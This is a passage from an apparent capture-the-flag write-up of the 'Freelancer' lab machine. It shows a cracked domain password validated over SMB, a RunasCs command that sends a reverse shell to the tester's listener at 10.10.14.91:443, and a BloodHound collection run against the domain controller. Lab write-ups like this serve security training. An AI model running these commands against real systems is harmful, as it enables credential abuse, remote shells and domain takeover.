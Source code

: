 ```plaintext
_SC_MSSQL$DATA	*PWN3D#l0rr@Armessa199	2a 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 50 00 57 00 4e 00 33 00 44 00 23 00 6c 00 30 00 72 00 72 00 40 00 41 00 72 00 6d 00 65 00 73 00 73 00 61 00 31 00 39 00 39 00 00 00 00 00 00 00
<..SNIP..>
```

I can see a possible password `PWN3D#l0rr@Armessa199` which works for user lorra199:

```plaintext
❯ netexec smb 10.10.11.5 -u lorra199 -p 'PWN3D#l0rr@Armessa199'
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 
```


I will use runascs.exe to receive another reverse shell as lorra199:

```bash
❯ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

```powershell
C:\Windows\Temp\privesc>.\RunasCs.exe "lorra199" "PWN3D#l0rr@Armessa199" cmd.exe -r 10.10.14.91:443
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-4aa81$\Default
[+] Async process 'C:\WINDOWS\system32\cmd.exe' with pid 3892 created in background.
```

And I successfully receive it:

![](/assets/images/Freelancer/Pasted%20image%2020241005154133.png)
# Access as Administrator

I will look directly to domain information using bloodhound as this is a domain and I didn't saw nothing interesting in the system. First, I will add dc.freelancer.htb remaining like this:

```bash
❯ tail -n 1 /etc/hosts
10.10.11.5 dc.freelancer.htb freelancer.htb
```

Then, I will sync the clock with victim machine:

```bash
❯ sudo ntpdate 10.10.11.5
2024-10-05 21:03:31.146640 (+0200) +18000.046772 +/- 0.182158 10.10.11.5 s1 no-leap
CLOCK: time stepped by 18000.046772
```

And now I can successfully dump the data:

```bash
❯ /opt/BloodHound.py/bloodhound.py -u 'lorra199' -p 'PWN3D#l0rr@Armessa199' --zip -d freelancer.htb -c All -ns 10.10.11.5
INFO: Found AD domain: freelancer.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.freelancer.htb
```